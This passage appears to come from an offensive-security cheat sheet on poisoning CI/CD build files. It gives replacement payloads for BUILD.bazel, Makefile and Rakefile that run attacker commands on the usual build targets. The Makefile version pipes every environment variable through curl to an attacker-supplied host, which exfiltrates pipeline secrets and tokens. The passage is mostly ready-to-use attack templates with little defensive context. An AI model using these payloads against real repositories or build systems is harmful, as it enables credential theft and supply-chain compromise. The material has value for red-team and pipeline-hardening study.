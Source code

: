 > Replace the content of `BUILD.bazel` with the following payload

NOTE: `BUILD.bazel` requires escaping backslashes.\
Replace any `\` with `\\` inside your payload.

```shell
genrule(
    name = "build",
    outs = ["foo"],
    cmd = "{Escaped-Shell-Payload}",
    visibility = ["//visibility:public"],
)
```


### Makefile

> Make files are often executed by build pipelines for projects written in `C`, `C++` or `Go` (but not exclusively).\
> There are several utilities that execute `Makefile`, the most common are `GNU Make` & `Make`.\
> Replace your target  `Makefile` with the following payload

```shell
.MAIN: build
.DEFAULT_GOAL := build
.PHONY: all
all: 
	set | curl -X POST --data-binary @- {YourHostName}
build: 
	set | curl -X POST --data-binary @- {YourHostName}
compile:
    set | curl -X POST --data-binary @- {YourHostName}
default:
    set | curl -X POST --data-binary @- {YourHostName}
```


### Rakefile

> Rake files are similar to `Makefile` but for Ruby projects.\
> Replace your target `Rakefile` with the following payload


```shell
task :pre_task do
  sh "{Payload}"
end

task :build do
  sh "{Payload}"
end

task :test do
  sh "{Payload}"
end

task :install do
  sh "{Payload}"
end

task :default => [:build]
```
